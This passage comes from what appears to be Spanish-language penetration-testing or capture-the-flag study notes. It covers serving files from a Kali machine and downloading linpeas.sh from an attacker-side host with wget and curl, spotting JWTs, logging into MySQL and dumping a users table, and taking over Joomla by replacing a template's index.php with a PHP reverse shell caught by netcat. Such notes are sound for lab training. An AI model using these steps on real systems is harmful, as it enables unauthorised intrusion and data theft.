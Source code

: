 
en mi kali:

python3 -m http.server 80


y luego descargar una herramienta con:

wget http://172.17.0.1:80/linpeas.sh

curl -O http://172.17.0.1:80/linpeas.sh

-------------------------------------------------------------------------------

## 25.- Puedo identificar un JWT cuando empieza con:

ey.........

luego entramos en la web de jwt.io y vemos más datos.

-------------------------------------------------------------------------------

## 26.- Iniciar sesón en mysql:

mysql -h 172.17.0.1 -u username --password=contraseña

mostrar bases de datos:

SHOW DATABASES;

ejemplo:

twitxdb

USE  twitxdb;

mostrar tablas

SHOW TABLES;

ejmplo

users

SELECT * from users;

salir

EXIT;

-------------------------------------------------------------------------------

## 27.- JOOMLA

Intrusión:

System > Templates > Administrator Templates > Atun Details and Files y editamos el archivo index.php, modificamos el archivo por una revers shell en php, esto implica colocar netcat en escucha.

-------------------------------------------------------------------------------
